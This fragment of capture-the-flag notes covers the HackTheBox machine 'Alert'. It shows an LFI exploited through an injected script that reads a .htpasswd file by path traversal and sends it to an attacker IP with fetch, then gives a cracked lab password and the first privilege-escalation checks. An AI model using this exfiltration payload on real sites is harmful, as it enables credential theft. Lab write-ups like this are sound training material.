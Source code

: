 get file link

put it in
```
<script src=""></script>
```

we get response

![[Pasted image 20250620093653.png]]
base64 decode it

![[Pasted image 20250620093717.png|result for etc/passwd]]


now we **know LFI is working**

### .htpasswd, get albert's credentials

neo1.md
```js
<script>
fetch('http://alert.htb/messages.php?file=../../../../var/www/statistics.alert.htb/.htpasswd')
.then(response=>response.txt())
.then(data => {
fetch("http://10.10.14.70/?data="+btoa(data));;
})
</script>
```

got albert's credential

![[Pasted image 20250620094108.png | albert creds]]

##### hashcat the creds

we get back

`albert:machesterunited`

# Privilege Escalation

## go the statistics.alert.htb with albert's creds & SSH

> ssh albert@alert.htb

### test for sudo -l

> sudo -l

```
Sorry, user albert may not run sudo on alert
```

### ps aux
